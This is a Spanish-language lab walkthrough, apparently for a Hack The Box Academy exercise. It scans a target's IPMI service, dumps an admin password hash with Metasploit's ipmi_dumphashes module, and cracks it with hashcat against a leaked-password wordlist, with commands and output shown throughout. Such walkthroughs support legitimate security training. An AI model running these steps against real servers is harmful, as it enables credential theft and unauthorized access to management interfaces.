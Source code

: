 ```
sudo nmap -sU --script ipmi-version -p 623 10.129.220.50`
```

Y observamos que se trata de la versión *IPMI-2.0*, versión la cual presenta vulnerabilidades (ver apuntes).
La explotaremos con msfconsole:

msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.220.50
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Observando la siguiente respuesta:
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> run
[+] 10.129.61.216:623 - IPMI - Hash found: admin:1d828e9282000000ee08e19758b8f7ae5fad97dda696fd50494585843e868227d4aa50ca546ab3b2a123456789abcdefa123456789abcdef140561646d696e:05aa0232b5adffddc6a6930e915029856aab3c10
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Donde vemos que el usuario es "admin". 
Respuesta: ***admin***

**\[+1 CUBE ] What is the account's cleartext password?

Partiendo de:
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> run
[+] 10.129.61.216:623 - IPMI - Hash found: admin:1d828e9282000000ee08e19758b8f7ae5fad97dda696fd50494585843e868227d4aa50ca546ab3b2a123456789abcdefa123456789abcdef140561646d696e:05aa0232b5adffddc6a6930e915029856aab3c10
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

El formato es un "IPMI2 RAKP"
```
hash1:hash2
```

Guardamos el hash en un archivo:
```hash.txt
┌─[eu-academy-3]─[10.10.15.48]─[htb-ac-1876550@htb-whzc2jgjnc]─[~]
└──╼ [★]$ echo "1d828e9282000000ee08e19758b8f7ae5fad97dda696fd50494585843e868227d4aa50ca546ab3b2a123456789abcdefa123456789abcdef140561646d696e:05aa0232b5adffddc6a6930e915029856aab3c10" > hash.txt
```

Haciendo una búsqueda rápida, vemos

Y lo crackeamos con:

```
hashcat -m 7300 -a 0 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 
```

Sabemos que tenemos que utilizar el -m 7300 porque hemos buscado la palabra "IMPMI" en la siguiente lista:
https://hashcat.net/wiki/doku.php?id=example_hashes
